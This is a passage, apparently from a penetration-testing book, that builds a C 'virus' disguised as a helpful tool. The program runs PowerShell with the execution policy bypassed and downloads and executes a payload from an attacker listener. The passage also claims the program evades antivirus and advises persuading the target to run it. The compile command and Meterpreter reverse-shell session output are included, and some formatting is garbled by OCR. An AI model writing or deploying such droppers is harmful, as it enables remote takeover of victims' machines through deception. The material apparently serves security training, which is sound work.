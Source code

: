{icon=bonb}
G> Start our web server:  
G> `Service apache2 start`  
G> `curl <listener-attack-ip>/payload.txt or just browse the payload to verify that it is hosted.
G>
G> Now let us create our binary virus, we will write this in c. I am going to call this `download-payload-execute.c` because that is what it does. Obviously you would want to call it something that your target felt comfortable running. This is what it looks like:
G>
G> `#include<stdio.h>`  
G> `#include<stdlib.h>`  
G> `int main()`  
G> `{`  
G> `  // Once the following line has executed, we will have our shell.`  
G> `  // system executes any command string you pass it.`  
G> `  // Windows is happy with PowerShell of course.`  
G> `  // noprofile causes no profile scripts to be loaded up front.`  
G> `  // Not sure if script execution is enabled on target system? No problem, just set executionpolicy to bypass for this session.`  
G> `  // This tells PowerShell to just trust that you know what you are doing, and that we are happy to download and run a malicious payload.`  
G> `  // Invoke the EXpression: download the payload and execute it.`  
G> `  // Providing the payload does not trigger anti virus, this should not.`
G> `  system("powershell.exe -noprofile -executionpolicy bypass \"IEX ((new-object net.webclient).downloadstring('http://<listener-attack-ip>/payload.txt '))\"");`
G>
G> `  // Add content here to make your target think this is a legitimate helpful tool.`  
G> `  // Or just do nothing and you may have to explain to your target that it is broken.`  
G>
G> `  // Add the following if you want the terminal to stay open.`  
G> `  //char buff[10];`  
G> `  //fgets (buff, sizeof(buff), stdin);`  
G> `}`
G>
G> With this, neither the payload or the virus should trigger Anti-Virus.
G>
G> Now you will need a c compiler on a system of the same architecture as your target. I set-up MinGW in the Tooling Setup chapter under Windows, so you should be good to compile the virus.
G>
G> `gcc download-payload-execute.c -o download-payload-execute.exe`
G>
G> This should provide you with an executable that AV will be happy about. You just need to convince your target to run it. When they do, your listener will catch the reverse_tcp shell.
G>
G> Target runs payload:
G>
G> `[*] Encoded stage with x86/shikata_ga_nai`
G> `[*] Sending encoded stage (958029 bytes) to <target-ip>`
G> `[*] Meterpreter session 6 opened (<listener-attack-ip>:4444 -> <target-ip>:63814) at 2016-12-28 15:31:29 +1300`
G> `msf exploit(handler) >`
G>
G> Now we have our shell. Type sessions to see its details:
G>
G> `msf exploit(handler) > sessions`
G>
G> `Active sessions`  
G> `===============`  
G>
G> `  Id  Type                     Information              Connection`  
G> `  --  ----                     -----------              ----------`  
G `  6  meterpreter x86/windows  <target-host>\kim @ <target-host>  <listener-attack-ip>:4444 -> <target-ip>:63814 (<target-ip>)`
G>